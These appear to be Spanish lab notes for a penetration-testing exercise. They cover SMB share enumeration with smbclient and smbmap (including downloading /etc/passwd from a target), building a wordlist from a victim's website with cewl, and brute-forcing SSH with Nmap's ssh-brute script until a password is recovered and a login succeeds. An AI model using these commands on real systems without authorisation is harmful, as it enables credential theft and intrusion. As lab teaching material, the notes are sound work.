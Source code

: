 ### smbclient

- Listar las carpetas compartidas para un sistema remoto: `smbclient -L fileserver`
![](img/Pasted image 20230531222501.png)

### SMBMap

- Escaneo por defecto: `smbmap -H <ip_objetivo>`
![](img/Pasted image 20230531223345.png)
- Enumerar un directorio particular: `smbmap -H <ip_objetivo> -r <directory>` 
![](img/Pasted image 20230531223329.png)
- Una vez encontramos el fichero `/etc/passwd` lo descargamos: `smbmap -H <ip_objetivo> --download <archivo>`
![](img/Pasted image 20230531224001.png)

## Diccionarios de contraseñas de palabras comunes contra objetivos concretos (Valid Accounts)

- Para saber si los usuarios que hay en un fichero de passwords usan contraseñas que son palabras que se encuentran en una web, y por tanto son fáciles de romper

- Vamos a generar una lista de palabras personalizada a partir del contenido de la página web de una víctima
- Cheatsheet para generar lista de palabras con el **tool cewl**:
![](img/Pasted image 20230531224324.png)
- Tutorial sobre cómo usar cewl: https://esgeeks.com/como-utilizar-cewl/

- Ejemplo con caracteres mínimos y salida a fichero: `cewl -c -m 5 <ip_objetivo> -w <fichero>`

## Fuerza bruta con Nmap (Valid Accounts)

- Para saber si los usuarios de un servicio remoto  usan una clave de una lista de palabras que tienes, y por tanto, algunas cuentas de usuario son fáciles de romper

- Pasos:
	- Primero hacemos un escaneo rápido con Nmap: `sudo nmap -sV -sS <ip_objetivo>` ![](img/Pasted image 20230531224951.png)
	- Localiza los scripts NSE adecuados que usen técnicas de fuerza bruta en `/usr/share/nmap/scripts`
	 ![](img/Pasted image 20230531225133.png)
	 - Usa el hecho de que sabemos que un usuario válido en el sistema es `remotessiuser`
	 - SOLUCIÓN:
		 - Usaremos el script `ssh-brute`
		 - Usaremos el siguiente comando: `nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst <target>`![](img/Pasted image 20230531230035.png)![](img/Pasted image 20230531230046.png)
		 - Obtenemos la password `ingenieriainformatica`
		 - Nos podemos conectar por ssh ![](img/Pasted image 20230531230351.png) ![](img/Pasted image 20230531230407.png)
